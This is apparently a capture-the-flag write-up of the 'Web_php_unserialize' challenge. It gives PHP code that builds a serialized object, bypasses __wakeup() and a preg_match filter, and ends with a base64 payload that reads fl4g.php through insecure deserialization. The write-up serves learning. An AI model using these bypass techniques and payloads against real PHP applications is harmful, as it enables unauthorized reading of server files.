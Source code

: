# Web_php_unserialize

![Screenshot from 2021-07-24 23-30-57](https://user-images.githubusercontent.com/87865134/126874978-4c16dc54-e4bb-4771-ae28-7d471f8ab6ff.png)

- **Hint:** flag in file fl4g.php
- **Workflow:**
  -  get value of `$_GET['var']`
  -  `base64_decode()`
  -  filter by `preg_match()`
  -  unserialize object

- **Payload need:**
  - `base64_encode()` 
  - bypass filter
  - bypass unserialize
  
1. **Bypass unserialize**
  - Create object serialize:
  ```php
  $a = new Demo("fl4g.php");
  $ser = serialize($a);
  echo $ser;
  //result: O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";} 
  ```
  - Bypass `__wakeup()`:
  ```php
  $ser = str_replace(':1:', ':2:', $ser);
  //O:4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}
  ```
2. **Bypass filter `preg_match()`**
  ```php
  $ser = str_replace('O:4', 'O:+4', $ser);
  //O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}
  ```
3. **Endcode base64**  
  ```php
  echo base64_encode($ser)
  ```

4. **Get payload:** `TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==` 
5. **Submit payload with URL query parameter**

![Screenshot from 2021-07-24 23-42-14](https://user-images.githubusercontent.com/87865134/126875292-0f129544-1c46-4fd4-824e-b0bb1975676f.png)

### - Description:
> **category**: Insecure Deserialization
